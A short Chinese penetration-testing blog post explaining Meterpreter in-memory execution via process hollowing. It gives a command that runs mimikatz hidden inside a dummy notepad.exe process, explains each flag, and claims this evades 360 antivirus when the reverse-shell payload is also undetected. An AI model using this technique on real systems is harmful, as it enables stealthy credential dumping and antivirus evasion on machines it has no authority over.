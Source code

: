 ```yaml
---
title: "Meterpreter 内存加载执行"
date: 2019-07-21T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['metasploit','bypass']
categories: ['内网渗透','bypass']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



具体原理和进程注入类似, 先创建一个正常的进程, 然后把这个进程里的内存空间覆盖成我们想要执行的程序.

Meterpreter 方式.

<!--more-->

```
execute -H -m -d notepad.exe -f mimikatz.exe -i
```

`-H` 隐藏窗口.

`-m` 在内存中执行.

`-d` 指定覆盖进程 (dummy).

`-f` 指定执行程序 (本地文件).

`-i` 与该程序交互 (可选).

`-a` 传递参数 (可选).

在实际测试中能够绕过 360 的检测, 当然前提是你反弹会话的 payload 是免杀的.